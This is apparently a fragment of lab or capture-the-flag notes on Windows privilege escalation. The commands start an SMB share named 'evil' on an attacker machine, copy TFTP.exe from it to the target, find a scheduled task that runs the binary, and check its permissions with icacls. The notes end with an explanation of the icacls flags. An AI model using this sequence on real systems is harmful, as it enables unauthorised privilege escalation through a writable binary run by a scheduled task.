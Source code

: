aftert the shell

```PowerShell
smbserver.py -smb2support evil $PWD
```

```PowerShell
cd C:\Backup
copy \\kali-vpn-ip\evil\TFTP.exe .
```

```PowerShell
Get-ScheduledTask | Where-Object {$_.Actions.Execute -like '*TFTP*'}
```

```PowerShell
icacls C:\Backup\TFTP.exe
```

This lists the permissions for the file `TFTP.exe` inside the `Backup` folder:

- `BUILTIN\Users:(I)(F)`
    
    → Users have inherited **Full control**.
    
- `BUILTIN\Administrators:(I)(F)`
    
    → Administrators have inherited **Full control**.
    
- `NT AUTHORITY\SYSTEM:(I)(F)`
    
    → SYSTEM account has inherited **Full control**.
    
- `NT AUTHORITY\Authenticated Users:(I)(M)`
    
    → Authenticated users have inherited **Modify** permissions.
    

---

### **🧠 What the Flags Mean**

- `(F)` = Full control
- `(M)` = Modify
- `(RX)` = Read & Execute
- `(OI)` = Object Inherit (applies to files)
- `(CI)` = Container Inherit (applies to folders)
- `(IO)` = Inherit Only (does not apply to the object itself)
- `(I)` = Permission is inherited